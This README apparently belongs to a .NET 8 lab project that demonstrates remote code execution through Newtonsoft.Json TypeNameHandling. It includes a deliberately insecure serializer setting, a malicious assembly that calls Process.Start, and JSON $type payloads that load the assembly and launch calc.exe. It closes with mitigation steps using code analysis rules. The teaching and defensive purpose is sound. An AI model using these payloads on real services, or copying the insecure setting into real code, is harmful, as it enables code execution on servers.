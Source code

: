 # .NET 8 Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET. 

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

``` C#
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` C#
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under: 
    ```
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```
1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilties.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Default rules includes security rules set to 

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the 

    ![Observe Warnings](./images/serialization01.png "Observe Warnings")

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft.Json security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    ![Warnings to Errors](./images/serialization02.png "Warnings to Errors")

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` C#
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```C#
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```


